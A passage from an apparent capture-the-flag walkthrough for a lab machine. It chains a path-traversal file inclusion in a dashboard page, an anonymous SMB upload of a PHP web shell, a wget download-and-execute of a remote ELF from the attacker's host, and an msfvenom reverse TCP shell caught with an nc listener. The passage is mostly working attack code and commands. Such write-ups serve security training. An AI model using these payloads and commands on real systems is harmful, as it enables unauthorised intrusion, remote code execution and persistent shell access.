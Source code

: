 Next browse to the following link:

- https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../../../../../../../../../../../../../../../../../etc/Development/bubba
- **NOTE:** the number of `../` used isn't important and is used to just get to `/` no matter where this PHP code may be running from.

Now the page includes the output `test`! Next replace `bubba.php` with the following simple PHP web shell:

- **NOTE:** This assumes that the target has `wget`, which is a common enough linux utility.

```php
<?php
function executeCommand(string $command) {
  # Try to find a way to run our command using various PHP internals
  if (class_exists('ReflectionFunction')) {
    # http://php.net/manual/en/class.reflectionfunction.php
    $function = new ReflectionFunction('system');
    $function->invoke($command);
  } elseif (function_exists('call_user_func_array')) {
    # http://php.net/manual/en/function.call-user-func-array.php
    call_user_func_array('system', array($command));
  } elseif (function_exists('call_user_func')) {
    # http://php.net/manual/en/function.call-user-func.php
    call_user_func('system', $command);
  } else if(function_exists('passthru')) {
    # https://www.php.net/manual/en/function.passthru.php
    ob_start();
    passthru($command , $return_var);
    $output = ob_get_contents();
    ob_end_clean();
  } else if(function_exists('system')){
    # this is the last resort. chances are PHP Suhosin
    # has system() on a blacklist anyways :>

    # http://php.net/manual/en/function.system.php
    system($command);
  }
}
executeCommand('wget http://10.10.14.13/bubba.elf -P /tmp/ && chmod +x /tmp/bubba.elf && /tmp/bubba.elf &');
?>
```

And generate `bubba.elf` with the following, upload it & host it:

```bash
# upload payload
smbclient -U '%' -N \\\\10.10.10.123\\Development
put bubba.php
quit
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.13 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf > bubba.elf
# host the payload on port 8080
sudo python3 -m http.server 80
# wait for the callback
nc -nvlp 6969
```
